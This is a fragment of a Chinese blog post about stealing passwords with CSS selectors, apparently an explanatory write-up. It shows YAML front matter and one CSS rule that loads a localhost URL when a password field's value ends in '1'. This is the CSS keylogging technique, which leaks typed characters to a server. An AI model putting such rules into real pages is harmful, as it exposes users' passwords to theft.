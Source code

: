 ```yaml
---
layout:     post
title:      一种通过CSS选择器盗取用户密码的攻击方式
subtitle:   web安全,不一样的css
date:       2019-03-12 13:57
author:     Youga
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
  - web
  - security
---
```


input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }

CSS-Keylogging

CrookedStyleSheets